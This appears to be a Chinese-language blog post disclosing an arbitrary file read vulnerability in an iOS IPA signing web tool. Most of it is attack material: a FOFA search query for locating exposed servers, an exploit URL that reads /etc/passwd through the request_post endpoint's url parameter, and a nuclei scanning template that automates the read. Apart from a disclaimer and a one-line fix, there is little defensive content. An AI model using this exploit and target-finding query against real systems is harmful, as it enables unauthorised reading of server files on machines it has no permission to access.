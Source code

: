 ﻿@[toc]
## 免责申明
本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
## 漏洞描述
该系统是苹果iOS端的IPA签名工具可以一键签名APP分身，支持安装未上架App Store的内测应用。用户可以在线批量导入源，若拥有自己的证书，签名功能完全免费且无任何限制，支持证书导入和文件分享，不限制签名数量。在request_post接口处的url参数中存在任意文件读取漏洞
## 搜索语法
fofa
```
body="/assets/index/css/mobileSelect.css"
```

## 漏洞复现
访问漏洞路径
```
https://ip/api/index/request_post?url=file:///etc/passwd&post_data=1
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/16b3d1e0eabf46ce85beb2f339136fd9.png)

## nuclei
```yaml
id: IOS-sign-tools-readfile

info:
  name: Template Name
  author: 'xl'
  severity: info
  description: description
  tags: tags

http:
  - raw:
      - "GET /api/index/request_post?url=file:///etc/passwd&post_data=1 HTTP/2\nHost:\
        \ \nSec-Ch-Ua: \"Not;A=Brand\";v=\"24\", \"Chromium\";v=\"128\"\nSec-Ch-Ua-Mobile:\
        \ ?0\nSec-Ch-Ua-Platform: \"Windows\"\nAccept-Language: zh-CN,zh;q=0.9\nUpgrade-Insecure-Requests:\
        \ 1\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36\
        \ (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\n\
        Sec-Fetch-Site: none\nSec-Fetch-Mode: navigate\nSec-Fetch-User: ?1\nSec-Fetch-Dest:\
        \ document\nAccept-Encoding: gzip, deflate, br\nPriority: u=0, i\n\n"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - root
      - type: status
        status:
          - 200

```

## 修复建议
更新的最新版本

